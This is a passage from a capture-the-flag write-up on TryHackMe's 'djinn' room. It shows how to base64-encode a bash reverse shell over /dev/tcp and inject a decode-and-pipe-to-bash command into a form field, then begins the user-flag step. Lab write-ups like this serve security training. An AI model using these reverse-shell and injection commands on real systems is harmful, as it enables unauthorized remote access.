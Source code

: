 On your terminal, encode the reverse shell line with the following command.

```
echo "bash -i >& /dev/tcp/<tun IP>/1234 0>&1" | base64
```

Make sure you change the <tun IP> according to your [tunnel IP](https://tryhackme.com/access). After obtained the encoding text, input the following line into the field.

```
echo "<encoded text>" | base64 --decode | bash
```

![ready shell](/assets/images/THM/2020-08-14-djinn/21.png)

![shell](/assets/images/THM/2020-08-14-djinn/22.png)

Viola, we just get the shell. Alright, time to capture the user flag.

### 2) Capture the user flag

![nitish](/assets/images/THM/2020-08-14-djinn/23.png)

There are two users who are Nitish and sam. For your information, we only can access to Nitish directory for this time being.

![nitish file](/assets/images/THM/2020-08-14-djinn/24.png)
